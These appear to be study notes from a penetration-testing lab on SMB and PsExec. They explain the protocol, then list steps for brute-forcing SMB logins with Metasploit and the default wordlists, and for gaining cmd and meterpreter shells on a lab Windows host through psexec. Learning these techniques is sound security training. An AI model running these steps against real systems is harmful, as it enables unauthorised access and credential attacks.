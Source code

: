 SMB with PsExec
#### SMB
- a network file sharing protocol that is used to facilitate the sharing files and peripherals between computer and networks
- port 445.However smb ranot top of NetBIOS using port 139
- SAMBA is the open source linux implementation of SMB,and allows Windows systems to access Linux shares and devices
- smb uses two level of authentication namely user authentication and share authentication
#### PsExec
- PsExec is a lightweight telnet-replacecement developed by Microsoft that allows you execute processes on remote windows systems using any user's credentials
- PsExec authentication is performed via SMB
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.
  
#### Process of SMB Exploitation with PsExec
- In oder to utilize PxExec to again access to a windows target,we will need to identify legitimate user accounts and their respective passwords or passwords hashes
- This can be done various tools,however most common technique will involve performing an SMB logging brute force attack
- We can narrow down our brute force attack to only common windows user  accounts like: Administrator
- then we can authenticate with the target using credentials via PsExec and execute arbitrary commands


#### Exploit
- nmap -sV -sC 10.2.24.221 [ confirm smb is running]
- service postresql start
- msfconsole
- search smb_login
- set all parameters requires [this will retrive users and password]
- psexec.py Adminitrator@10.2.24.221 cmd.exe [ here we need cmd shell that's why we use cmd.exe]
- this will give us cmd prompt
#### msf module
- search psexec
- use  exploit/windows/smb/psexec  
- set password,user,rhost and everything necessary
- run
- this will give us meterpreter shell
- sysinfo [ to get system info]
- getuid [ getting uid]
- shell [ getting a shell]


#### wordlists
- user=/usr/share/metasploit-framework/data/wordlists/common_users.txt
- pass=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

